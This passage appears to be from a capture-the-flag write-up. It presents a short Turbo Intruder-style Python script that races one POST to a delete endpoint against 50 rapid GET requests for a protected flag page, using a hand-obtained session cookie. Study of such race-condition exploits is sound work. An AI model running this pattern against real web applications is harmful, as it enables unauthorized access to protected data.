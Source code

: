 By following the examples, I quickly came up with this script that gets us the flag 95% of the time:
```python
def queueRequests(target, wordlists):
    token = "<a token gotten by hand>"

    engine = RequestEngine(
        endpoint=endpoint, concurrentConnections=50, requestsPerConnection=100, pipeline=False
    )

    get_flag_req = "GET /notes/flag HTTP/1.1\nHost: " + host + "\nCookie: connect.sid=" + token + "\n\n"
    deleteme_req = "POST /deleteme HTTP/1.1\nHost: " + host + "\nCookie: connect.sid=" + token + "\n\n"

    engine.queue(deleteme_req)

    for _ in range(50):
        engine.queue(get_flag_req)

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

This script simply makes a request to `deleteme` and 50 requests to `/notes/flag` really fast. As we can see in the following image, every request to `/notes/flag` that returns a 200 code is a request that has the flag, meaning that we won the race.
